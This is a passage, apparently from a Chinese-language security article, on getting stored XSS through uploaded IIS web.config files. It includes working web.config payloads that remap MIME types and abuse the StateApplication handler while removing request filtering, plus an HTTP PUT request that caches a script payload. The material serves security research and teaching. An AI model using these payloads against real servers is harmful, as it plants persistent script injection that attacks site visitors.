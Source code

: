 也可以创建存储型XSS。 当其他方法因任何原因不起作用时，这可能很有用。

在上文中讨论了通过上传`web.config`文件使应用受XSS攻击的一些方法。 例如，当允许下载某些文件时，可以通过操作mimetypes进行XSS攻击。 以下示例显示.txt文件如何作为`.html`文件运行：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <remove fileExtension=".txt" />
            <mimeMap fileExtension=".txt" mimeType="text/html" />
        </staticContent>
    </system.webServer>
</configuration>
```

在这篇博客文章中，还发现了两个新ASP.NET处理程序。

##### 2.3.1 使用State Application处理程序

StateApplication处理程序是System.Web.SessionState命名空间内的一个内部类，用于缓存并且不应该直接从用户代码调用。 使用任意文本替换任何现有文件的响应可能会被滥用。

以下web.config文件显示了一个示例，使用该示例使用XSS有效内容替换web.config的响应：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <add name="web_config" path="*.config" verb="*" type="System.Web.SessionState.StateApplication,System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

要在缓存中创建存储的`XSS 525600`分钟（最大数量），应在上传`web.config`文件后发送以下请求：

```plain
PUT /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
Http_Timeout: 525600
Content-Length: 25

<script>alert(1)</script>
```
